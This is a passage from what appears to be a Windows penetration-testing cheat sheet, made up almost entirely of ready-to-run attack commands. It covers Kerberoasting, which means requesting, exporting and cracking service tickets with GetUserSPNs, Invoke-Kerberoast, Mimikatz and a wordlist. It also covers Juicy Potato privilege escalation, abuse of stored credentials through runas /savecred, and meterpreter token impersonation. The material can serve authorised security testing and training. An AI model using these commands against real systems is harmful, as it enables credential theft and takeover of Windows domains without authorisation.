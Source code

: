 # Request tickets 
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"

# Requesting remotely
python GetUserSPNs.py -request ECORP/morph3:supersecurepassword@127.0.0.1

# Extract tickets
powershell.exe -c "Import-Module C:\Users\Public\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat Hashcat"
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack Tickets
python tgsrepcrack.py /usr/share/wordlists/rockyou.txt ticket.kirbi
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; Juicy Potato
https://github.com/ohpe/juicy-potato/releases
Pick one CLSID from here according to your system
https://github.com/ohpe/juicy-potato/tree/master/CLSID

Required tokens
SeAssignPrimaryTokenPrivilege 
SeImpersonatePrivilege 

<pre class="prettyprint linenums:"><code class="language-py">C:\Windows\Temp\JuicyPotato.exe -p cmd.exe -a "/c whoami > C:\Users\Public\morph3.txt" -t * -l 1031 -c {d20a3293-3341-4ae8-9aaf-8e397cb63c34}
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp;  Stored Credential
<pre class="prettyprint linenums:"><code class="language-ps"># To check if there is any stored keyscmdkey /list

# Using them
runas /user:administrator /savecred "cmd.exe /k whoami"
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp;  Impersonating Tokens with meterpreter
<pre class="prettyprint linenums:"><code class="language-ps">use incognito
list_tokens -u
impersonate_token NT-AUTHORITY\System
</code></pre>
